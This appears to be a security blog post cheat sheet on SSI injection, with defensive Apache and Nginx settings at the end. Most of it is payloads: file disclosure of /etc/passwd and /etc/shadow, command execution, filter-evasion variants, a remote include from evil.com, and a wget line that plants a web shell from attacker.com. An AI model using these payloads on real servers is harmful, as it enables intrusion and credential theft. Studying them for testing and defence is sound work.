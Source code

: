 ```yaml
---
layout: post
title: SSI (Server-Side Includes) Injection
date: 2025-04-10 17:34 +0300
categories: [Web Security, Server-side]
---
```


## What is SSI Injection?

Server-Side Includes (SSI) are directives in HTML pages that are evaluated on the server before the page is delivered to the client. SSI injection occurs when an attacker can inject these directives into a page that is then parsed by an SSI-enabled server.

## SSI Directive Syntax

Basic syntax: `<!--#directive parameter="value" -->`

## Common SSI Directives

### File Operations

```
<!--#include virtual="/path/to/file" -->
<!--#include file="/path/to/file" -->
<!--#flastmod file="index.html" -->
<!--#fsize file="index.html" -->
```

### Command Execution

```
<!--#exec cmd="command" -->
<!--#exec cgi="/cgi-bin/script.cgi" -->
```

### Environment Variables

```
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="DATE_LOCAL" -->
<!--#echo var="REMOTE_ADDR" -->
```

### Flow Control

```
<!--#if expr="test_condition" -->
<!--#elif expr="test_condition" -->
<!--#else -->
<!--#endif -->
```

## SSI Injection Attack Vectors

### Basic Injection Test

```
<!--#echo var="DATE_LOCAL" -->
```
If this renders the current date, the server processes SSI directives.

### File Disclosure

```
<!--#include virtual="/etc/passwd" -->
<!--#include file="/etc/passwd" -->
```

### Remote File Inclusion

```
<!--#include virtual="http://evil.com/malicious-script.html" -->
```

### Command Execution

```
<!--#exec cmd="ls -la" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#exec cmd="id" -->
```

### Cross-Site Scripting via SSI

```
<!--#echo var="QUERY_STRING_UNESCAPED" -->
```

### Directory Traversal

```
<!--#include virtual="../../../etc/passwd" -->
```

## Advanced Techniques

### Chained Exploits

```
<!--#exec cmd="wget http://attacker.com/shell.php -O /var/www/html/shell.php" -->
```

### Encoded Payloads

URL-encoded:
```
%3C%21--%23exec%20cmd%3D%22id%22%20--%3E
```

### Environment Variable Abuse

```
<!--#if expr="${REQUEST_URI} = /admin" -->
<!--#set var="admin" value="true" -->
<!--#endif -->
```

### System Information Disclosure

```
<!--#echo var="SERVER_SOFTWARE" -->
<!--#echo var="SERVER_NAME" -->
<!--#echo var="REMOTE_HOST" -->
```

## Platform-Specific Payloads

### Windows Systems

```
<!--#exec cmd="dir C:\" -->
<!--#exec cmd="type C:\Windows\win.ini" -->
<!--#exec cmd="net users" -->
```

### Unix/Linux Systems

```
<!--#exec cmd="uname -a" -->
<!--#exec cmd="cat /etc/shadow" -->
<!--#exec cmd="netstat -an" -->
```

### Web Server Specific

#### Apache
```
<!--#exec cmd="apache2ctl -V" -->
<!--#include virtual="/.htaccess" -->
```

#### Nginx
```
<!--#include virtual="/etc/nginx/nginx.conf" -->
```

## Evasion Techniques

### Obfuscation

```
<!--#e<!--#e<!--#exec cmd="id"-->x<!--#e-->ec cmd="ls" -->
```

### Alternative Expressions

```
<!--#if expr="$DOCUMENT_URI = /\/admin\//?" -->
sensitive content
<!--#endif -->
```

### Comments Within Directives

```
<!--#exec <!-- comment --> cmd="id" -->
```

## Detection Methods

### Testing for SSI Vulnerability

1. Input: `<!--#echo var="DATE_LOCAL" -->`
2. Expected output: Current date if vulnerable

### Using Error Messages

Input: `<!--#echo var="UNDEFINED_VARIABLE" -->`

## Common Files to Target

```
/etc/passwd
/etc/shadow
/etc/hosts
/proc/self/environ
/var/log/apache2/access.log
/var/log/nginx/access.log
.htaccess
web.config
```

## Defense Mechanisms

### Server Configuration
- Disable SSI processing if not needed
- Use `IncludesNOEXEC` option to disable `exec` command
- Implement proper input validation
- Set restrictive file permissions

### Apache Configuration
```
<Directory "/var/www/html">
    Options -Includes
    # or
    Options +IncludesNOEXEC
</Directory>
```

### Nginx Configuration
```
ssi off;
```

### Application-Level Defenses
- Validate and sanitize user input
- Implement proper output encoding
- Use Content Security Policy (CSP)

## SSI File Extensions
SSI is typically processed in these file types:
- `.shtml`
- `.shtm`
- `.stm`
- Sometimes `.html` if configured

## References
- [OWASP Server-Side Includes (SSI) Injection](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
- [Apache SSI Documentation](https://httpd.apache.org/docs/current/howto/ssi.html)
- [Nginx SSI Module](http://nginx.org/en/docs/http/ngx_http_ssi_module.html)
- [PayloadsAllTheThings SSI Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Include%20Injection)


